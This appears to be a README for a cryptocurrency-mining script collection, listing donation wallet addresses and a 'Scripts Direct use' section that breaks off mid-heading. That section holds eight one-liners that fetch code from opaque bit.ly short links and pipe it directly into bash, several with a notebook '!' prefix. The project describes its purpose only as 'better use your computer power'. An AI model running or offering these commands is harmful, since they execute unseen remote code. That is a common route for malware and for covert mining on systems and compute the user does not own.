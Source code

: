 # 10 000 code and code

This project offers multiple scripts to better use your computer power and network without wasting anything

<span style="color:Red">The address and urls are hardcoded in the scripts you need to change it before using the script</span>.



## Donate

ETH:	0x1be9C1Db52aC9cD736160c532D69aA4770c327B7

ETC:	0x5C5152521D51f23735Bf14a8f6321d39bA73D95f

RVN:	RMV17aQMgMPyPqJQ5H3WRQH37Njspi1SSK

ZEC:	t1ab2rCrgCbqaspPodCALpR6epzEiu5uCHF

YEC:	s1THjZQJxthDD9tt1dRzQSqDoQQH9XwNM5x

ADA: addr1qy4aeu2wpjpuy0r2xn64eec0z6300wnqrj5ypj3ep9g49ggm7gg506stxjnjp3zjs3a9mch478sfl6qt722zu2gs28fqq5dfv6

XMR:	44ucr5iSqUjCR6m93Gu9ssJC9W1yWLGz1fZbAChLXG1QPnFD5bsTXKJAQEk8dHKDWx8hYJQ5ELqg9DJKNA1oRoNZKCGyn1p

## Scripts Direct use

!echo $(wget -q -O - bit.ly/RV00001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/RV20001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/IBM0001 2> lol.out | bash 

wget -q -O - bit.ly/ET00001 2> lol.out | bash 

wget -q -O - bit.ly/RVET0001 2> lol.out | bash 

wget -q -O - bit.ly/XM00001 2> lol.out | bash 

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0001 | bash

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0002 | bash


## Solo M

